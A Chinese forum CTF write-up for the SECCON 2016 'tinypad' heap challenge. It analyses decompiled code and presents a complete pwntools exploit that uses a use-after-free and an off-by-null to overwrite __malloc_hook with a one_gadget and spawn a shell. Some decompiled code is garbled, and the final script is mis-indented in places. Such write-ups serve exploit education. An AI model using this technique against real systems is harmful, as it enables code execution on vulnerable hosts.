# [CTF] SECCON CTF 2016 tinypad

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1828388
- 抓取时间: 2026-11-01T22:47:21

## 检查文件信息



图片.png (52.45 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0MDE0OHxkNzU3NjUxY3wxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE0OHxkNzU3NjUxY3wxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

1
2023-9-1 18:28 上传



图片.png (74.83 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjY0MDE0OXwwYzJmNTBhZXwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE0OXwwYzJmNTBhZXwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

2
2023-9-1 18:29 上传

没有开PIE保护，ELF64小端序文件。



图片.png (12.92 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0MDE1MHw5NmEzZDc4ZnwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE1MHw5NmEzZDc4ZnwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

3
2023-9-1 18:30 上传



图片.png (102.97 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjY0MDE1MXxhZGE2OGEzN3wxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE1MXxhZGE2OGEzN3wxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

4
2023-9-1 18:31 上传

暂改`rpath`为2.23。

## 试运行



图片.png (188.92 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjY0MDE1Mnw0ODU5NDczY3wxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE1Mnw0ODU5NDczY3wxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

5
2023-9-1 18:31 上传

## 逆向分析

```
/* main 函数 */

int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 len_of_str; // rsi
  const char *str; // rdi
  __int64 v6; // rdx
  __int64 v7; // rdx
  __int64 v8; // rdx
  __int64 v9; // rdx
  size_t len_of_con; // rax
  int choice; // eax
  int size_alloc; // eax
  __int64 v13; // rdx
  size_t v14; // rax
  __int64 v15; // rdx
  unsigned __int64 v16; // rax
  __int64 v17; // rdx
  __int64 v18; // rdx
  int c; // [rsp+4h] [rbp-1Ch] BYREF
  int i; // [rsp+8h] [rbp-18h]
  int index; // [rsp+Ch] [rbp-14h]
  int v23; // [rsp+10h] [rbp-10h]
  int size; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v25; // [rsp+18h] [rbp-8h]

  v25 = __readfsqword(0x28u);
  v23 = 0;
  write_n(&unk_4019F0, 1LL, envp);
  write_n(
    "  ============================================================================\n"
    "// _|_|_|_|_|  _|_|_|  _|      _|  _|      _|  _|_|_|      _|_|    _|_|_|     \\\\\n"
    "||     _|        _|    _|_|    _|    _|  _|    _|    _|  _|    _|  _|    _|   ||\n"
    "||     _|        _|    _|  _|  _|      _|      _|_|_|    _|_|_|_|  _|    _|   ||\n"
    "||     _|        _|    _|    _|_|      _|      _|        _|    _|  _|    _|   ||\n"
    "\\\\     _|      _|_|_|  _|      _|      _|      _|        _|    _|  _|_|_|     //\n"
    "  ============================================================================\n",
    563LL,
    v3);
  len_of_str = 1LL;
  str = (const char *)&unk_4019F0;
  write_n(&unk_4019F0, 1LL, v6);
  do
  {
    for ( i = 0; i >> ", 11LL, v7);
      index = read_int();
      if ( index  4 )
      {
LABEL_29:
        len_of_str = 13LL;
        str = "Invalid index";
        writeln("Invalid index", 13LL);
        continue;
      }
      if ( !*(_QWORD *)&tinypad[0x10 * index + 0xF0] )
      {
LABEL_31:
        len_of_str = 8LL;
        str = "Not used";
        writeln("Not used", 8LL);
        continue;
      }
      free(*(void **)&tinypad[0x10 * index + 0xF8]); // because index begin with 1，so this is 0xF8 ; UAF漏洞
      *(_QWORD *)&tinypad[0x10 * index + 0xF0] = 0LL;
      len_of_str = 9LL;
      str = "\nDeleted.";
      writeln("\nDeleted.", 9LL);
    }                                           // delete end
    else if ( choice > 'D' )
    {
      if ( choice != 'E' )
      {
        if ( choice == 'Q' )                    // Quit
          continue;
LABEL_41:
        len_of_str = 17LL;
        str = "No such a command";
        writeln("No such a command", 17LL);
        continue;
      }
      write_n("(INDEX)>>> ", 11LL, v7);         // edit start
      index = read_int();
      if ( index  4 )
        goto LABEL_29;
      if ( !*(_QWORD *)&tinypad[0x10 * index + 0xF0] )
        goto LABEL_31;
      c = '0';
      strcpy(tinypad, *(const char **)&tinypad[0x10 * index + 0xF8]);
      while ( toupper(c) != 'Y' )
      {
        write_n("CONTENT: ", 9LL, v18);
        v14 = strlen(tinypad);
        writeln(tinypad, v14);
        write_n("(CONTENT)>>> ", 13LL, v15);
        v16 = strlen(*(const char **)&tinypad[0x10 * index + 0xF8]);
        read_until((__int64)tinypad, v16, '\n');
        writeln("Is it OK?", 9LL);
        write_n("(Y/n)>>> ", 9LL, v17);
        read_until((__int64)&c, 1uLL, '\n');
      }
      strcpy(*(char **)&tinypad[0x10 * index + 0xF8], tinypad);
      len_of_str = 8LL;
      str = "\nEdited.";
      writeln("\nEdited.", 8LL);                // edit end
    }
    else
    {
      if ( choice != 'A' )                      // Add begin
        goto LABEL_41;
      while ( index >> ", 10LL, v7);
        size = read_int();
        if ( size  0x100 )
            size_alloc = 0x100;
        }
        size = size_alloc;
        *(_QWORD *)&tinypad[0x10 * index + 0x100] = size_alloc;
        *(_QWORD *)&tinypad[0x10 * index + 0x108] = malloc(size);
        v13 = 0x10 * (index + 0x10LL);
        if ( !*(_QWORD *)&tinypad[v13 + 8] )
        {
          writerrln("[!] No memory is available.", 27LL);
          exit(-1);
        }
        write_n("(CONTENT)>>> ", 13LL, v13);
        read_until(*(_QWORD *)&tinypad[0x10 * index + 0x108], size, '\n');
        len_of_str = 7LL;
        str = "\nAdded.";
        writeln("\nAdded.", 7LL);
      }
    }                                           // Add end
  }
  while ( v23 != 'Q' );
  return 0;
}
```

```
/* getcmd 函数 */

int __fastcall getcmd(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 v3; // rdx
  __int64 v4; // rdx
  int c; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v7; // [rsp+8h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  c = 0;
  write_n(
    "+- MENU -----------------------------------------------------------------------+\n"
    "| [A] Add memo                                                                 |\n"
    "| [D] Delete memo                                                              |\n"
    "| [E] Edit memo                                                                |\n"
    "| [Q] Quit                                                                     |\n"
    "+------------------------------------------------------------------------------+\n",
    486LL,
    a3);
  write_n("(CMD)>>> ", 9LL, v3);
  read_until(&c, 1LL, 10LL);
  write_n(&unk_4019F0, 1LL, v4);
  return toupper(c);
}
```

```
__int64 __fastcall read_until(__int64 a1, unsigned __int64 a2, unsigned int a3)
{
  unsigned __int64 i; // [rsp+28h] [rbp-18h]
  __int64 n; // [rsp+30h] [rbp-10h]

  for ( i = 0LL; i 
```

主要逻辑都写在了`main`函数里，`delete`时将`data_size`置0，却未将`data`指向置零，存在UAF漏洞。`read_until()`函数存在off-by-null漏洞。

### 漏洞分析

本题存在UAF漏洞，且输出时并不对`size`做检查，很容易泄露堆和libc地址。再通过off-by-null构造堆块重叠，将`chunk_below_malloc_hook`写入fast bin，申请出来时写入`one_gadget`，再去申请一个堆块便可`get_shell`。

### 前置脚本

```
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context.log_level='debug'
context.arch='amd64'

p = process("./tinypad")
elf = ELF('./tinypad')
libc = ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

is_debug = 1
```


```python
def debug():

    if is_debug:

        gdb.attach(p)

        pause()

    else:

        pass

def add_memo(p, size, content):

    p.recvuntil(b"(CMD)>>>")

    p.sendline(b"A")

    p.recvuntil(b"(SIZE)>>>")

    p.sendline(str(size).encode())

    p.recvuntil(b"(CONTENT)>>>")

    p.sendline(content)

def delete_memo(p, idx):

    p.recvuntil(b"(CMD)>>>")

    p.sendline(b"D")

    p.recvuntil(b"(INDEX)>>>")

    p.sendline(str(idx).encode())

def edit_memo(p, idx, content):

    p.recvuntil(b"(CMD)>>>")

    p.sendline(b"E")

    p.recvuntil(b"(INDEX)>>>")

    p.sendline(str(idx).encode())

    p.recvuntil(b"(CONTENT)>>>")

    p.sendline(content)

    p.recvuntil(b"(Y/n)>>>")

    p.sendline(b"Y")
```

## 泄露地址

```python
def leak_addr():
    global heap_addr, libc_base, one_gadget, addr_malloc_hook, fake_fast
    add_memo(p, 0x60, b"a" * 0x10) # index(1) chunk(1)
    add_memo(p, 0x60, b"b" * 0x10) # index(2) chunk(2)
    add_memo(p, 0xf0, b"c" * 0x10) # index(3) chunk(3)
    add_memo(p, 0x80, b"d" * 0x10) # index(4) chunk(4)
    debug() # debug_1
    delete_memo(p, 3)
    delete_memo(p, 2)
    delete_memo(p, 1)
    debug() # debug_2
    p.recvuntil(b"INDEX: 1")
    p.recvuntil(b"CONTENT: ")
    heap_addr = u64(p.recvuntil(b'\n', drop=True).ljust(8, b'\x00')) # 2_prev_size
    log.success("heap_addr: 0x%x" % heap_addr)

    p.recvuntil(b"INDEX: 3")
    p.recvuntil(b"CONTENT: ")
    arena = u64(p.recvuntil(b'\n', drop=True).ljust(8, b'\x00'))
    libc_base = arena - 0x3c4b78
    log.success("libc_base: 0x%x" % libc_base)

    fake_fast = libc_base + libc.sym['__malloc_hook'] - 0x23
    one_gadget = libc_base + 0xf1247
```



图片.png (95.31 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0MDE1NnwwYTAzMGI0OHwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE1NnwwYTAzMGI0OHwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

debug_1

2023-9-1 18:55 上传

debug_1

`index(4)`用来阻隔`top_chunk`。`index(3)`会进入`unsorted bin`，用来泄露`libc`基址。`index(2)`和`index(1)`进入`fast bin`。`index(1)_fd`指向`index(2)`，用来泄露堆地址。



图片.png (115.77 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjY0MDE1N3xlZjM5MDhiYXwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE1N3xlZjM5MDhiYXwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

debug_2

2023-9-1 18:59 上传

debug_2

可以看到，此时已经构成泄露条件，程序会自动打印所有`content`，我们只需要接收`index(3)`和`index(1)`的内容即可。

## off-by-null

```python
def HOE():

    add_memo(p, 0xf0, b"C" * 0x10) # index(1) -> chunk(3)

    add_memo(p, 0x60, p64(0) + p64(0xd0) + p64(heap_addr - 0x60) + p64(heap_addr - 0x60)) # index(2) -> chunk(1)

    add_memo(p, 0x68, b"B" * 0x60 + p64(0xd0)) # index(3) -> chunk(2)

    debug() # debug_3

    delete_memo(p, 1)

    delete_memo(p, 3)

    debug() # debug_4

    add_memo(p, 0x90, b'E' * 0x50 + p64(0) + p64(0x71) + p64(fake_fast)) # index(1)

    debug() # debug_5

    delete_memo(p, 1)
```



图片.png (194.32 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=MjY0MDE2MnxjN2ViOGQ1ZHwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE2MnxjN2ViOGQ1ZHwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

debug_3

2023-9-1 19:09 上传

debug_3

这里有一些弯子要绕，我们现在的`index(1)->chunk(3)`，`index(2)->chunk(1)`，`index(3)->chunk(2)`。如上图所示，我们通过在申请`index(2)`时，`index(2)->chunk(1)`，将`chunk(1)`构造为一个`free_chunk`，将`fake_chunk_fd`，`fake_chunk_bk`改为`chunk(1)_fd`的位置来绕过`unlink`检查，因为我们当初泄露的时`chunk(2)_prev_size`，所以`heap_addr-0x60`的位置就是`fake_chunk_prev_size`。将`fake_chunk_size`改为`0xd0`，然后将`index(1)->chunk(3)`的`prev_size`改为`0xd0`，绕过`free`检查。将`index(1)->chunk(3)`释放后将造成堆块重叠，将`index(3)->chunk(2)`包含到重叠的堆块中。



图片.png (273.18 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0MDE2OHwxZjQ5YmE2NHwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE2OHwxZjQ5YmE2NHwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

debug_4

2023-9-1 19:25 上传

debug_4



图片.png (121.56 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0MDE2OXwzOWU1NDA3YXwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE2OXwzOWU1NDA3YXwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

dz4

2023-9-1 19:28 上传

debug_5

我们看到，此时已经完成了堆块重叠，我们将`index(3)->chunk(2)` `free`后，`chunk(2)` 进入`fast bin`，然后我们的大堆块从`chunk(1)_fd`开始，`0x1d0`大小的堆块被放进了`unsorted bin`。我们申请一个足够覆盖`chunk(2)`的堆块将从`unsorted bin`中分配，通过此堆块将`chunk(2)_fd`修改为`fake_chunk_below_malloc_hook`，我们申请两次就可申请到`fake_chunk`。



图片.png (128.72 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0MDE3MXw3ZmIyZjQ5ZHwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE3MXw3ZmIyZjQ5ZHwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

debug_5

2023-9-1 19:29 上传

可以看到通过`index(1)_0x101`修改完毕。

## get_shell

```python
def get_shell():
    add_memo(p, 0x60, b'F' * 0x10) # take first fast # index(1)
    add_memo(p, 0x60, b'X' * 0x13 + p64(one_gadget)) # take second fast that's __malloc and write one_gadget to it # index(3)
    debug() # 6
    delete_memo(p, 2) # we have no pad can be write, free(2) add a chunk will exec one_gadget
    p.recvuntil(b"(CMD)>>>")
    p.sendline(b"A")
    p.recvuntil(b"(SIZE)>>>")
    p.sendline(str(0x10).encode())
```


图片.png (36.83 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=MjY0MDE3M3xhNDUzYWQ5Y3wxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE3M3xhNDUzYWQ5Y3wxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

debug_6

2023-9-1 19:38 上传

`0x23`减去`0x10`的`fake_chunk_fd&bk`，剩下`0x13`偏移便可到达`__malloc_hook`，我们只需要添加`0x13`的偏移即可。成功将`__malloc_hook`改为`one_gadget`地址后，然后任意申请一个`chunk`便可`get_shell`。



图片.png (96.99 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=MjY0MDE3N3w5MjIyNzhjOXwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MDE3N3w5MjIyNzhjOXwxNzkzNTczMjM5fDE2ODA4NnwxODI4Mzg4&nothumb=yes)

sh

2023-9-1 19:40 上传

## 完整exp

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']

context.log_level='debug'

context.arch='amd64'

p = process("./tinypad")

elf = ELF('./tinypad')

libc = ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

is_debug = 1

def debug():

    if is_debug:

        gdb.attach(p)

        pause()

    else:

        pass

def add_memo(p, size, content):

    p.recvuntil(b"(CMD)>>>")

    p.sendline(b"A")

    p.recvuntil(b"(SIZE)>>>")

    p.sendline(str(size).encode())

    p.recvuntil(b"(CONTENT)>>>")

    p.sendline(content)

def delete_memo(p, idx):

    p.recvuntil(b"(CMD)>>>")

    p.sendline(b"D")

    p.recvuntil(b"(INDEX)>>>")

    p.sendline(str(idx).encode())

def edit_memo(p, idx, content):

    p.recvuntil(b"(CMD)>>>")

    p.sendline(b"E")

    p.recvuntil(b"(INDEX)>>>")

    p.sendline(str(idx).encode())

    p.recvuntil(b"(CONTENT)>>>")

    p.sendline(content)

    p.recvuntil(b"(Y/n)>>>")

    p.sendline(b"Y")

def leak_addr():

    global heap_addr, libc_base, one_gadget, addr_malloc_hook, fake_fast

    add_memo(p, 0x60, b"a" * 0x10) # 1

    add_memo(p, 0x60, b"b" * 0x10) # 2

    add_memo(p, 0xf0, b"c" * 0x10) # 3

    add_memo(p, 0x80, b"d" * 0x10) # 4

    debug() # 1

    delete_memo(p, 3)

    delete_memo(p, 2)

    delete_memo(p, 1)

    debug() # 2

    p.recvuntil(b"INDEX: 1")
```


```python
p.recvuntil(b"CONTENT: ")
heap_addr = u64(p.recvuntil(b'\n', drop=True).ljust(8, b'\x00'))  # 2_prev_size
log.success("heap_addr: 0x%x" % heap_addr)
p.recvuntil(b"INDEX: 3")
p.recvuntil(b"CONTENT: ")
arena = u64(p.recvuntil(b'\n', drop=True).ljust(8, b'\x00'))
libc_base = arena - 0x3c4b78
log.success("libc_base: 0x%x" % libc_base)
fake_fast = libc_base + libc.sym['__malloc_hook'] - 0x23
one_gadget = libc_base + 0xf1247

def HOE():
    add_memo(p, 0xf0, b"C" * 0x10)  # index(1) -> chunk(3)
    add_memo(p, 0x60, p64(0) + p64(0xd0) + p64(heap_addr - 0x60) + p64(heap_addr - 0x60))  # index(2) -> chunk(1)
    add_memo(p, 0x68, b"B" * 0x60 + p64(0xd0))  # index(3) -> chunk(2)
    debug()  # 3
    delete_memo(p, 1)
    delete_memo(p, 3)
    debug()  # 4
    add_memo(p, 0x90, b'E' * 0x50 + p64(0) + p64(0x71) + p64(fake_fast))  # index(1)
    debug()  # 5
    delete_memo(p, 1)

def get_shell():
    add_memo(p, 0x60, b'F' * 0x10)  # take first fast # index(1)
    debug()  # 6
    add_memo(p, 0x60, b'X' * 0x13 + p64(one_gadget))  # take second fast that's __malloc and write one_gadget to it # index(3)
    debug()  # 7
    delete_memo(p, 2)  # we have no pad can be write, free(2) add a chunk will exec one_gadget
    p.recvuntil(b"(CMD)>>>")
    p.sendline(b"A")
    p.recvuntil(b"(SIZE)>>>")
    p.sendline(str(0x10).encode())

def pwn():
    leak_addr()
    HOE()
    get_shell()
    p.interactive()

if __name__ == '__main__':
    pwn()
```
